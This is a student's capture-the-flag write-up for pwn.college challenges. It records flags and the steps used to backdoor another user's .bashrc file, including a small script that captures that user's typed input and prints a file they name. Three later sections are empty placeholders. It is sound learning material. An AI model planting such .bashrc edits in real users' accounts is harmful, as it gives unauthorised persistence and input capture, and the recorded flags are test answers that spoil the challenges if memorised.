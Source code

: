 # Bashrc Backdoor

### Edit .bashrc


**Flag:** `pwn.college{cv8W_UYxYaPgaeK7AQx8kfMvlPn.0VMzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and added `cat /flag` to it. Then, `/challenge/victim` gave me the flag.

## What I learnt
`.bashrc` is the file run on the startup of the shell/terminal.

## References
No references used.



<br><br><br><br><br>



# Sniffing Input

### Make a bash script to get input


**Flag:** `pwn.college{s7pxa6UX26yxmgYRrzPaHKP8uI_.0VNzEzNxwSN2EzNzEzW}`

## Process
Ran `nano /home/zardus/.bashrc` and wrote
```
read input

if [ $input == "flag_checker" ]
then
        echo "Type the flag"
        read flag
        cat $flag
fi
```
Then I ran `/challenge/victim` to get the flag.

## What I learnt
Input into the terminal can be read by any program with the correct permissions.

## References
No references used.



<br><br><br><br<br>




# Overshared Directories

### Rewrite a file in an opened up directory


**Flag:** `pwn.college{gK-rwkpnIfR2Hxd2J_wvqRMDtOi.0FM0EzNxwSN2EzNzEzW}`

## Process
Ran `rm /home/zardus/.bashrc` and then `nano /home/zardus/.bashrc` and wrote the previous code into the file. Then, on running `/challenge/victim` I got the flag

## What I learnt
Files can be accessed if in an opened up directory.

## References
No references used.



<br><br><br><br<br>



# Tricky Linking

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.



<br><br><br><br<br>




# Sniffing Process Arguments

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.



<br><br><br><br<br>




# Snooping on Configuratiins

### Desc


**Flag:** ``

## Process


## What I learnt


## References
No references used.
